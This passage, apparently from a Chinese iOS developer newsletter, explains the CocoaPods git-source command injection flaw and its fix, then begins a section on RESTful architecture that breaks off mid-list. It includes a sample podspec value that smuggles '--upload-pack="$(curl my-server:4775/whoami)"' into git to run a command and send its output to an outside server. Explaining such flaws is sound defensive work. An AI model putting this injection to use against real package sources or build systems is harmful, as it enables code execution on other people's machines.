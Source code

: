 发现者的文章：https://justi.cz/security/2021/04/20/cocoapods-rce.html

  hack news: https://news.ycombinator.com/item?id=26874726

**问题原因**

原因是cocoapod的源码中有这一段：

```ruby
system('git', 'ls-remote', @specification.source[:git], ref.to_s)
```

其中的`:git`，是这段

```ruby
source：{"git":"https://github.com/SDWebImage/SDWebImage.git","tag”:”5.9.5”}
```

中的git参数。即拼接执行`git ls-remote https://github.com/SDWebImage/SDWebImage.git`

可能被攻击，即如果这样设置

```ruby
source：{"source":{"git":"--upload-pack="$(curl my-server:4775/`whoami`)" https://github.com/","tag":"1.0.0"}}
```

那么拼接执行 

```ruby
git ls-remote --upload-pack="$(curl my-server:4775/whoami)" https://github.com/
```

导致`--upload-pack` 的语句 `$(curl my-server:4775/whoami)`执行。它能够使调用者直接获取到对应仓库的操作权限，做一些修改公有库的操作。

这种问题类似于sql注入漏洞，即拼接 string 后执行，很容易在拼接 string 过程中，没做检验，导致出现漏洞，实际运行时，很容易被注入没预料到的命令或参数，执行后出现问题 。

**影响范围**

该问题已经存在了6年，但 CocoaPods 官方无法证明在这期间是否有人利用了这个漏洞，也不能自动去检测所有的库是否被上传了错误的版本。如果你想确认自己维护的库是否遭遇了这种问题，可以通过这个网站协助校验：https://pod-sources.cocoapods.org。

**问题修复**

由 Pod 官方修复，放弃了 `git ls-remote` 命令，改手动检验 `git remote`。对于在这之前的 session keys 都进行了清除工作，所以对于在这之后需要向公有库提交的作者需要重新登录以生成新的keys。

## 编程概念

整理编辑：[师大小海腾](https://juejin.cn/user/782508012091645)，[zhangferry](https://zhangferry.com)

本期选题来源于林永坚的 [iOS开发进阶](https://t8.lagounews.com/dR5FRrRtcO4F8) 课程里的「跨平台架构：如何设计 BFF 架构系统？」这一节内容。如有表述不准确的地方，欢迎指出，定会及时改正。

### 什么是 RESTful

RESTful 里的 REST 是 Representational State Transfer 的缩写，翻译过来就是：表现层状态转化。它是一种互联网软件架构，处理的问题是如何开发在互联网环境中使用的软件。

从含义入手：表现层状态转化。表现层是互联网资源呈现的形式，例如 HTML，JSON 等，转化就是资源等数据的变化，查询数据，更新数据。

RESTful 架构一般满足以下三点即可：
